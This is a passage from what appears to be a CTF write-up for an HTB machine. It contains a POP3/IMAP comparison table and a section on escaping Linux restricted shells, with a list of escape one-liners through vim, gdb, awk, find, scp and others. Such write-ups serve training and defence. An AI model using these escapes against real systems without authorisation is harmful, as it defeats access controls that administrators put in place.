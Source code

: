 | It has two modes: delete mode and keep mode. In delete mode, the mail is deleted from the mailbox after retrieval. In keep mode, the mail remains in the mailbox after retrieval | Multiple redundant copies of the message are kept at the mail server, in case of loss of message of a local server, the mail can still be retrieved |
| Changes in the mail can be done using local email software                                                                                                                       | Changes made to the web interface or email software stay in sync with the server                                                                    |
| All the messages are downloaded at once                                                                                                                                          | The Message header can be viewed prior to downloading                                                                                               |

{% endaccordion %}

{% accordion Linux restricted shell bypass %}
A restricted shell is a shell that block/restricts some of the commands like cd, ls, echo or "block" the environment variables like SHELL, PATH, USER. Sometimes a restricted shell can block the commands with / or the redirecting outputs like >, >>. The types of a restricted shell can be: rbash, rksh, rsh. But now why someone want to create a restricted shell? Some examples:

1. To improve security
2. To block hackers/ pentesters
3. Sometimes system administrators create a restricted shell to protect theirselves from dangerous commands
4. For a CTF challenge

Enumeration Linux Environment
Enumeration is the most important part. We need to enumeration the Linux environmental to check what we can do to bypass the rbash:
We need to enumerate:

1. First we must to check for available commands like cd/ls/echo etc.
2. We must to check for operators like >, >>, <, \|
3. We need to check for available programming languages like perl, ruby, python etc.
4. Which commands we can run as root (sudo -l)
5. Check for files or commands with SUID perm.
6. You must to check in what shell you are: echo $SHELL you will be in rbash by 90%
7. Check for the environmental variables: run env or printenv

Common Exploitation Techniques

1. If "/" is allowed you can run /bin/sh or /bin/bash
2. If you can run cp command you can copy the /bin/sh or /bin/bash into your directory
3. From ftp > !/bin/sh or !/bin/bash
4. From gdb > !/bin/sh or !/bin/bash
5. From more/man/less > !/bin/sh or !/bin/bash
6. From vim > !/bin/sh or !/bin/bash
7. From rvim: > :python import os; os.system("/bin/bash)
8. From scp > scp -S /path/yourscript x y:
9. From awk > awk 'BEGIN {system("/bin/sh or /bin/bash")}'
10. From find > find / -name test -exec /bin/sh or /bin/bash \;

{% endaccordion %}

## Resolution Flow 🎯

![Resolution Flow Graph](/assets/img/posts/HTB/chaos/graph.png)
